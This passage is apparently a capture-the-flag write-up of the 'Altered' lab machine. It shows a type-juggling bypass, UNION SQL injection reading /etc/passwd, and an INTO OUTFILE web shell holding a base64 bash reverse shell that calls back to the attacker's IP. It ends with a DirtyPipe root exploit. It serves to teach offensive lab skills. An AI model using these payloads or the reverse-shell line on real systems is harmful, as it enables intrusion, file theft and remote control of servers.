

```
GET /api/getprofile HTTP/1.1
Host: 10.129.227.109
X-Requested-With: XMLHttpRequest
Cookie: XSRF-TOKEN=eyJpdiI6Imxlbm96dzJwZU5xYzBpYWViNWl3VXc9PSIsInZhbHVlIjoieHFDTFBhTWsrZzR4NHRubktYR1h5MUJFVjBjNU1KSit1VFdtUlBJd2haR1FadWpjWThjYW9nQzBoVmZEaTNkOVhnbDQ0ekNMWjJkcXpPWmFWYjIwbERRWTBLL0EzaXNtQ2VjYWE0VGtPcEZHVlIvWlFPaGpnUlU1ek5ubGtKUDYiLCJtYWMiOiJjNGJiNjNiOTYwNDc1NzA3ZGU2MDU1NGE0MmM5MjQwOGI0OWM1ZTNmNmVlZTIzYjhjNWUxNDVmMDlkNDQ5YjNjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImdvMnUrM1ZtUTBMbml2VFQxa2RwNGc9PSIsInZhbHVlIjoianBvRzlTbWttY2NwMytwall6aVZyOG00STEzK2dCWWhLYmpjTFVTd3pJNEhXT3I1WFpQcDV0L05QazkrelQ0TTdqYVdGVTZTQUxGYStKblZOSHMzOVdwQUNnLzFBODc2U1BqTWg2aWVpK0p1UHZDZVJkMGlQSHlpN0tJTE5Pcm4iLCJtYWMiOiJmZTNiMGE2N2EyZjk3ZjExYjI5ZjU3YzcyZjE3OTRjMDU4YTAyY2IzMmRmZTMwNTFhZDNiZjU0NWY3MjVmOGIxIiwidGFnIjoiIn0%3D
Content-Length: 56
Content-Type: application/json

{"id":"1","secret":true}
```

It works! This is huge because now we can tamper with the `id` parameter freely. The `secret` was the only thing binding our request to a specific, server-approved `id`, and by setting it to `true` we've satisfied that check.

Now let's just try a single quote to see if it works:



We get a `500` error which is exactly the type of error we look for when hunting for `SQLi`. It confirms that our `id` value is being concatenated directly into a SQL query without sanitization.

I fed this whole scenario into Claude and had it take a guess at the underlying SQL statement, which might look something like the following:

```
// GET /api/getprofile  — id and secret come from request
$id     = $request->input('id');
$secret = $request->input('secret');

$expected = hash('md5', $id . $SALT);   // or an HMAC — per-id value

if ($secret == $expected) {             // <-- loose ==, the juggling flaw
    $row = DB::select(
        "SELECT id, name, description FROM users WHERE id = $id"
    );                                   // <-- $id concatenated raw, the SQLi
    return response()->json($row);
}

abort(403, 'tampered input');
```

That paints a good picture of the underlying logic, so now let's try `UNION SELECT` and follow the standard procedure of first figuring out how many columns are present.

Since the original table has ID #, Name, and Country, it's a pretty safe bet that it's 3, which is confirmed in the following screenshot as we get a 200 instead of 500:



```
{"id":"1 UNION SELECT 1,2,3-- -","secret":true}
```

Now let's put a non-existent ID value so we can see exactly which position(s) is being reflected onto the page:

```
{"id":"555555 UNION SELECT 1,2,3-- -","secret":true}
```



Let's inject version() to see if the backend is running MySQL:

```
{"id":"555555 UNION SELECT 1,2,version()-- -","secret":true}
```



Indeed it is. We may even be able to directly retrieve files with the load_file() function:

```
{"id":"555555 UNION SELECT 1,2,load_file('/etc/passwd')-- -","secret":true}
```



Nice! Since we know the backend is running PHP we can just write a reverse shell PHP file to the web root, but first we need to find out where the root is on the filesystem.

We identified earlier in the nmap scan that this web app is running Nginx, so now let's check the active site config file at `/etc/nginx/sites-enabled/default`:

```
{"id":"555555 UNION SELECT 1,2,load_file('/etc/nginx/sites-enabled/default')-- -","secret":true}
```



So the web root is located at `/srv/altered/public`. Let's try writing a test file there first:

```
{"id":"555555 UNION SELECT 1,2,'test' INTO OUTFILE '/srv/altered/public/test.txt'-- -","secret":true}
```



We got a 500 error which is expected. Now let's visit the endpoint and see if it worked:



Nice! Now let's just write a random PHP file that beacons back to our listener.

## Foothold via PHP Reverse Shell & User Flag

This is very similar to another write-up that I did for Validation [`https://coreyfarley.com/posts/validation-htb/`].

Let's just use a basic reverse shell payload:

```
bash -c 'bash -i >& /dev/tcp/10.10.14.239/53 0>&1'
```

Now let's base64 encode it so the special characters don't break the SQL query:

```
┌──(corey㉿kali)-[~/htb/Altered]
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.239/53 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMzkvNTMgMD4mMScK
```

Now pipe that into a file with the `base64_decode()` function:

```
{"id":"555555 UNION SELECT 1,2,'<?php system(base64_decode(\"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMzkvNTMgMD4mMScK\")); ?>' INTO OUTFILE '/srv/altered/public/829ycna927ye97a.php'-- -","secret":true}
```



Another 500 as expected. Now let's visit the file and see if we get a hit in our listener:



Perfect! Now let's grab the user flag:



## Privilege Escalation

Now let's enumerate some of the basics to try and find an avenue for priv esc.

After some manual enumeration of checking SUID binaries, `ps aux`, current user privs, etc. I couldn't find anything that stood out, so I downloaded linpeas over and ran that to help with my enumeration:



Ah, looks like the intended path is using the `DirtyPipe` exploit. I don't even bother checking the kernel version during manual enumeration since linpeas is so good at that, which makes sense as to why I couldn't find anything.

Let's go find a PoC for that. The one I used was `https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits`.

All we gotta do is compile it with gcc and transfer it over:



Now run it and we should get a root shell as easy as that:



Hmm, we get an unexpected error. Taking a look at the source code, the exploit is supposed to do the following:

1. Back up `/etc/passwd` to `/tmp/passwd.bak`
2. Use Dirty Pipe's arbitrary-write primitive to overwrite root's password field in `/etc/passwd`, setting the password to `piped`
3. Automatically run `su` to authenticate as root with that password
4. Restore `/etc/passwd` from the backup once elevated
5. Drop us into a root shell

It looks like it failed on step 3, so let's just do it manually:



Ah, the system is running a custom PAM-Wordle module for the switch user tool.

That's a fun touch to this machine, let's play!



This was actually not fun at all and a huge PITA. Almost every word I tried was invalid and I had to ask Claude what the correct word was because I've never heard of ngrok before.

Now just grab the flag and we're all done:



## Lessons Learned

This was a hard box but a really well-rounded one. The web chain was the main focus, the IP-spoofing header trick to beat rate limiting on the reset PIN is something I learned on PortSwigger so I'm glad that followed over and worked. Even when a lab doesn't strictly need it, practicing the "realistic" way helps keep me sharp.

The type juggling was the main thing I got from this. I’d never seen or heard of this vulnerability before, so it was cool to learn you can pass the secret check just by sending it as a JSON boolean true. Good reminder to always check whether an endpoint will take a JSON body instead of query/form params, because the type you can send often matters more than the value.

Priv esc was a joke but I mainly did this machine to strengthen my web app skills and I'm happy with what I got out of it.
